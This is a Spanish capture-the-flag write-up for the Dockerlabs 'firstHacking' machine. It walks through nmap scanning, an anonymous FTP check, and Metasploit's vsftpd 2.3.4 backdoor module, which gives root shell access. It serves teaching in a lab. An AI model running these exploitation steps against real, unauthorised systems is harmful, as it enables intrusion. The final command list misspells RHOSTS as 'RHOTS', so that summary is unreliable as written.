







# Write-up

- **Nombre de la máquina:** `firstHacking` 
- **Plataforma:** `Dockerlabs` 
- **IP:** `172.17.0.2` 
- **SO:** `Linux` 
- **Dificultad:** `Muy Fácil`

-----------------------

## 1. RECONOCIMIENTO

El objetivo de esta fase es identificar los puntos de entrada y servicios expuestos en la máquina víctima.

#### 1.1. Verificación de Conectividad

Se lanza un `ping` para confirmar que la máquina está activa y obtener el TTL lo que puede darnos una primera pista sobre el sistema operativo.

```
 ping 172.17.0.2
```
Nos devuelve conectividad y un TTL=64 por lo que estamos ante una máquina Linux. 




#### 1.2. Escaneo de Puertos

Se realiza un escaneo con **Nmap** para descubrir puertos abiertos, los servicios que corren en ellos y sus versiones.

```
sudo nmap -p- -sV -sC -sS --min-rate 5000 --open -n -Pn 172.17.0.2 -oN port_scan.txt
```

**Puertos Descubiertos:**

| Puerto | Servicio | Versión          | Notas                                                   |
| ------ | -------- | ---------------- | ------------------------------------------------------- |
| 21     | ftp      | vsftpd 2.3.4<br> | Servidor FTP<br>protocolo de transferencia de archivos. |



En este escenario, nos encontramos ante una máquina que solo tiene abierto el puerto 21. Al no haber otros puertos disponibles para explorar, la  vía de acceso potencial es realizar un inicio de sesión en el servicio con  usuario anonimo. En caso de que no las encontráramos optaríamos por buscar vulnerabilidades conocidas para la versión `FTP`.

## 2. ENUMERACIÓN

Una vez identificados los servicios, se procede a investigarlos en profundidad en busca de vulnerabilidades o información útil.

### 21(FTP)


Utilizaremos `Nmap` para la enumeración FTP. No hay herramientas propias para este cometido. 

Nmap tiene scripts para el servicio `Ftp` que puedes consultar:
```
ls /usr/share/nmap/scripts/ftp*`
```


Para lanzar un escaneo a la vulnerabilidad `session null` utilizaremos `ftp-anon.nse`

```
sudo nmap -p21 --script ftp-anon 172.17.0.2
```




No muestra que sea vulnerable a `session null`

Por agotar la vía, intentamos una conexión al servicio con usuario `anonymous` y vemos que no es posible. 
```
ftp anonymous 172.17.0.2
```


En este punto, como hablamos anteriormente optamos por revisar las vulnerabilidades conocidas para la versión del servicio `ftp`: `vsftp 2.3.4`

Para ello abriremos `metasploit`
```
msfconsole -q
```

y buscamos con el comando `search` la versión del servicio `ftp`

```
search vsftp: 2.3.4
```


Encontramos el exploit `Backdoor Command Execution`


## Explotación 

### 3.1 Lanzamiento de exploit y acceso inicial.

Para seleccionar el exploit que queremos haremos uso del comando `use` acompañado del numero que corresponda al exploit en la columna: `#`

1. `use 0`


Continuaremos viendo las opciones necesarias para configurar nuetsrao exploit para ello podemos utilizar o `options` o `show options`
2.  `show options`
   

Se nos desplegará una lista  en la que debemos añadir utilizando el comando `set` la información que se marque como `yes` en la columna de Required. 
En nuestro caso se trata de `RHOSTS` que hace referencia a la máquina objetivo. 

3. `set RHOSTS 172.17.0.2`


Una vez tengamos lista nuestra configuración. Lanzaremos el exploit con el comando `run` o `exploit` 

4. `run`

Conseguimos entrar como usuario con máximos privilegios `root` con  sesión de  shell poco interactiva. 🚀


Comandos de `metasploit`:

1. `use 0`
2. `show options`
3. `set RHOTS 172.17.0.2`
4. `run`
